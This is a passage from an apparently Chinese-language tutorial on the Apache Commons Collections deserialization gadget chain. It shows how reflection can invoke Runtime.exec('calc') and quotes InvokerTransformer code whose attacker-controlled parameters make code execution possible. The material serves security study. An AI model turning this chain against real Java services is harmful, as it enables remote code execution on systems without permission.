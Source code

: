 * 第二层`java.lang.reflect.Method.invoke()`

这个就是反射调用

```java
Runtime r = Runtime.getRuntime();
Class c =Runtime.class;
Method execMethod  = c.getMethod("exec",String.class);
execMethod.invoke(r,"calc");
```

因为Runtime⽆法序列化，`Runtime.class`是可以序列化的,所以改成这样

```java
Class c =Runtime.class;
Method getRuntime = c.getMethod("getRuntime", null);
Runtime r = (Runtime) getRuntime.invoke(null, null);
Method exec = c.getMethod("exec", String.class);
exec.invoke(r,"calc");
```



* 第三层`org.apache.commons.collections.functors.InvokerTransformer.transform()`

这里查看一下`InvokerTransformer`这个类的`transform()`方法

```java
public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);
                
        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
        }
    }
```

这个方法，传入一个对象，在正常的情况下，通过反射，执行对象的方法，对比一下第二层就知道了，这里有点后门意思

查看`InvokerTransformer`的构造方法，发现`iMethodName`,`iParamTypes`,`iArgs`这几个参数可控

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }
```
